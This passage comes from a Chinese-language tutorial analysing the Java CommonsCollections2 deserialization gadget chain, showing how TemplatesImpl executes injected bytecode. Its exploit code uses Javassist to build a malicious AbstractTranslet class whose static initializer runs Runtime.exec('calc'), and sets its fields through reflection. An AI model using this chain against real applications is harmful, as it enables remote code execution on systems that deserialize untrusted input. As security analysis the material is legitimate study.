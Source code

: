 ```java
    }
```

注释1处调用了getTransletInstance，分析getTransletInstance。

注释2处调用了defineTransletClasses，在defineTransletClasses里注释3处，会解析类的字节码_bytecodes，_bytecodes就是之后我们构造的包含payload的类的字节码。

回到注释4处，程序会为我们传入的恶意TemplatesImpl类创建一个实例，里面的静态代码包含的payload就会在此时执行。

ps1：

在构造时我们还需要注意两点：

* 注释4处，创建的是一个AbstractTranslet示例，因此我们的恶意类要继承一下AbstractTranslet
* 注释5处，我们构造时需要给_name赋一个任意的值，不然后面的代码不会执行

ps2：

q：为什么不直接在InvokerTransformer#transform里调用getTransletInstance？

a：因为getTransletInstance是私有方法

于是有Exp中的构造：

```java
    String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
    String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

    ClassPool classPool=ClassPool.getDefault();//返回默认的类池
    classPool.appendClassPath(AbstractTranslet);//添加AbstractTranslet的搜索路径
    CtClass payload=classPool.makeClass("CommonsCollections22222222222");//创建一个新的public类
    payload.setSuperclass(classPool.get(AbstractTranslet));  //设置前面创建的CommonsCollections22222222222类的父类为AbstractTranslet
    payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");"); //创建一个空的类初始化，设置构造函数主体为runtime

    byte[] bytes=payload.toBytecode();//转换为byte数组

    Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();//反射创建TemplatesImpl
    Field field=templatesImpl.getClass().getDeclaredField("_bytecodes");//反射获取templatesImpl的_bytecodes字段
    field.setAccessible(true);//暴力反射
    field.set(templatesImpl,new byte[][]{bytes});//将templatesImpl上的_bytecodes字段设置为runtime的byte数组

    Field field1=templatesImpl.getClass().getDeclaredField("_name");//反射获取templatesImpl的_name字段
    field1.setAccessible(true);//暴力反射
    field1.set(templatesImpl,"test");//将templatesImpl上的_name字段设置为test
```

‍

##### TransformingComparator

```java
    /** The decorated comparator. */
    private final Comparator<O> decorated;
    /** The transformer being used. */
    private final Transformer<? super I, ? extends O> transformer;

    public TransformingComparator(Transformer<? super I, ? extends O> transformer) {
        this(transformer, ComparatorUtils.NATURAL_COMPARATOR);
    }

	/**
     * Returns the result of comparing the values from the transform operation.
     *
     * @param obj1  the first object to transform then compare
     * @param obj2  the second object to transform then compare
```